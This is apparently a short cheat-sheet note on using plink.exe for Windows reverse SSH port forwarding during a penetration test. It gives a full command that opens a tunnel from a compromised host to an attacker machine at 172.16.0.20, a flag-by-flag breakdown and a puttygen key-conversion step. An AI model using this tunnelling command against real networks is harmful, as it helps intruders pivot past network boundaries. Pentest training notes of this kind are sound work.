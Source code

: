 plink.exe

Windows PLink Tunnel

Plink allows an SSH-like client to allow Port Forwarding on a Windows system. Below is an example command:

~~~cmd
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
~~~

Command Breakdown:

cmd.exe /c echo y - This spawns a non-interactive shell and suppresses warnings
| - pipes in a new command after the non-interactive shell and into that same shell
-R - Creates the remote port on the attacker machine
8000:172.16.0.10:80 - AttackerMachineProxyPort:TargetIP:TargetPort
kali@172.16.0.20 - AttackerUser@AttackerIP
-i KEYFILE - -i Specifies to use a Private Key and the KEYFILE is the keyfile/private key **May need to be chmod 600 on the keyfile for it to function properly
-N - only sets up the connection (no backgrounding is needed as it is running in a backgrounded non-interactive shell)

***Keys generated with ssh-keygen will not work properly with plink as plink is a part of the putty set and will require a putty generated key.
***You will need to generate a key using ssh-keygen and then convert it with puttygen. Below is an example command:

~~~cmd
puttygen KEYFILE -o OUTPUT_KEY.ppk
~~~

You will still need to add the public key to the authorized_keys file for this, but the private key used on the other system will need to become the puttygen'd key.
